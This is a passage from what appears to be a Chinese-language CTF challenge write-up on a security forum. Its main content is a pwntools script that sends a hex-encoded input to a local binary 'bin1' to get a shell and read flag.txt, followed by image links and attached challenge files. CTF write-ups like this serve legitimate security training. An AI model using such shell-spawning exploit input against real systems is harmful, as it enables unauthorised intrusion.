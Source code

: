 输出：  
![](https://bbs.pediy.com/upload/attach/202103/910514_A5V2WVD4J7ADMKH.png)  
getshell：

```
from pwn import *
from binascii import a2b_hex
import re
 
sh = process('./bin1')
sh.sendline(a2b_hex('310a6dbe0a0a2b310a31240a0a310a310a0a310a310a'))
sh.sendline('cat flag.txt')
flag = sh.recvall(timeout=5)
flag = re.findall(r'\{(.*?)\}', flag.decode())
print(f'flag=flag{{{flag[0]}}}')

```

输出：  
![](https://bbs.pediy.com/upload/attach/202103/910514_DZXUH636KRUGT4Y.png)

 

两道题目的文件可以在附件中下载。

[[公告] 2021 KCTF 春季赛 防守方征题火热进行中！](https://bbs.pediy.com/thread-266222.htm)

上传的附件：

*   [bin5](javascript:void(0)) （5.48kb，1 次下载）
*   [bin1](javascript:void(0)) （53.48kb，1 次下载）